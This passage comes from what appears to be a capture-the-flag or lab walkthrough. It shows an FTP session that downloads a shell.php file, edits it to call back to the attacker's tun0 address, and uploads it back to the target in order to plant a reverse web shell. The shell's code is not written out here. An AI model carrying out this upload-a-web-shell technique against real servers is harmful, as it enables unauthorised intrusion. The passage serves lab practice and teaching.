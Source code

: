 * We can download these files using the `get` command.

```
ftp> get shell.php
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for shell.php (5493 bytes).
100% |***********************************************************************************************************************************************************************************************|  5493       64.89 KiB/s    00:00 ETA
226 Transfer complete.
5493 bytes received in 00:00 (24.22 KiB/s)
ftp> get index.html
local: index.html remote: index.html
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for index.html (10918 bytes).
100% |***********************************************************************************************************************************************************************************************| 10918        3.20 MiB/s    00:00 ETA
226 Transfer complete.
10918 bytes received in 00:00 (81.19 KiB/s)
```

* We have to modify the shell a bit.&#x20;

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

* We set he IP address to our `tun0` interface and the port to any port we like.
* Let's upload the modified `shell.php` using the `put` command.

```
ftp> put shell.php
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5494        3.20 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (19.89 KiB/s)
```
